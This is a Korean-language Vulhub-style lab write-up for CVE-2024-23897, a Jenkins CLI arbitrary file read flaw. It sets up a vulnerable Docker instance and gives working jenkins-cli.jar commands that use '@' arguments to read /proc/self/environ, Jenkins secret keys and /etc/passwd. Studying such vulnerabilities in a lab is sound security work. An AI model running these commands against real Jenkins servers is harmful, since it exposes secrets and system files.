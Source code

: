 # CLI를 통한 Jenkins 임의 파일 읽기 취약점 (CVE-2024-23897)
> 본 프로젝트는 WHS3기 프로젝트의 일부로, Vulhub 한국어로 번역하고 구현하여 한국어판 vulhub를 제작하고자 하는 뜻에 합하여 제작하게 되었습니다. 
### Jenkins
Jenkins는 오픈소스 자동화 서버로 주로 지속적 통합/지속적 배포 (CI/CD)를 지원하는 도구이다.    
**발견된 취약점**    
Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 파싱한다.    
이 명령 파서는 인수의 @파일 경로 앞에 오는 문자를 파일 내용으로 바꾸는 기능(expandAtFiles)을 가지고 있는데, 이를 통해 공격자는 Jenkins 서버에서 임의의 파일을 읽을 수 있다.     
**args4j**    
명령줄 옵션/인수를 쉽게 구문 분석할 수 있는 작은 Java 클래스 라이브러리
### target
Jenkins 2.441 이전 버전
## 취약한 환경 구성하기
Jenkins server 2.441를 실행시킨다.    
```
docker compose up -d
 ```    
위의 명령어를 실행시키면 서버에 접속할 수 있게 된다
``` http://localhost:8080/ ``` or ``` http://본인-ip주소:8080/ ```
![](Jenkins-vul/CVE-2024-23897-Poc/스크린샷 2025-04-27 181243.png)        
**접속아이디/패스워드** : id: 'admin' passwd: 'vulhub'           
**컨테이너 접속하기**        
 ```
docker ps -a #위의 명령어로 실행시킨 컨테이너 이름 확인하기
sudo docker exec -it {container ID} /bin/bash #컨테이너 bin/bash로 들어가기
```

## PoC
1. ```jenkins-cli.jar```을 해당 링크, ```http://localhost:8080/jnlpJars/jenkins-cli.jar```로부터 다운로드한다.
```
apt update #패키지 설치를 위한 준비
apt upgrade
apt install wget #wget 패키지 설치
wget 'http://localhost:8080/jnlpJars/jenkins-cli.jar' #해당 링크로 부터 jenkins-cli.jar 설치
```
2. ```/proc/self/environ``` 파일을 읽는다. ```JENKINS_HOME=/var/jenkins_home```
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```
![](Jenkins-vul/CVE-2024-23897-Poc/image2.png)
3. 이후, 민감한 파일을 얻을 수 있다. ex) 'secrets.key' or 'master.key'
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```
![](Jenkins-vul/CVE-2024-23897-Poc/image3.png)
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```
![](Jenkins-vul/CVE-2024-23897-Poc/image4.png)
- 익명 읽기 액세서 허용이 켜져 있었기 때문에 전체 내용을 읽을 수 있었다.
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```
![](Jenkins-vul/CVE-2024-23897-Poc/image5.png)
## 참고문헌
<https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897#vulnerable-environment>
<https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
<https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>
<https://digitalbourgeois.tistory.com/227>

